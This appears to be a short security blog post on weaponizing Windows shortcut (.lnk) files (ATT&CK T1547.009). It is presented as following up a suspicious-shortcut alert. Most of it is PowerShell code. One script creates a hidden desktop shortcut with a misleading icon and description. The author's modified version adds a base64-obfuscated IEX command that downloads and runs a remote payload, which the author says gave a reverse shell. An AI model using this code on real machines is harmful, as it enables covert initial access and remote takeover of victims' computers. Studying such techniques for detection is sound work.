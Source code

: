 ```yaml
---
layout: post
title: Weaponizing Shortcut Modification
subtitle: Exploring T1547.009 
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/shortcut.png
share-img: /assets/img/shortcut.png
tags: [poc, shortcut]
---
```


The other day I was investigating an alert for what was suspected to be a malicious lnk file. I had not really seen many of these in the wild, so I decided to take a bit of extra time to see what an true positive might look like. I found some useful PoC resources to help me create my own attack.

The original Powershell script that I modified can be seen below. I pulled it directly from the link to [v3ded's](https://v3ded.github.io/) post included in the resources section.

~~~
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
~~~

Branching from this, I decided to add an IEX statement to download a payload hosted on a remote server. I had it pull and execute shellcode to give me a reverse shell.

~~~
$path = "$([Environment]::GetFolderPath('Desktop'))\RealText.lnk"
$wshell = New-Object -ComObject Wscript.Shell
$shortcut = $wshell.CreateShortcut($path)
$cmd = [System.Text.Encoding]::ascii.GetString([System.Convert]::FromBase64String('SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzAuMC4wLjA6ODAwMC9maWxlLnR4dCcpKQ=='))
$shortcut.IconLocation = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = " -c $cmd"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey = "CTRL+C"
$shortcut.Description = "I'm a dolphin, not a virus"
$shortcut.WindowStyle      = 7
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden'
~~~


**Resources**

| Type | Link |
| :------ | :--- |
| PoC | [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) |
| PoC | [https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk) |
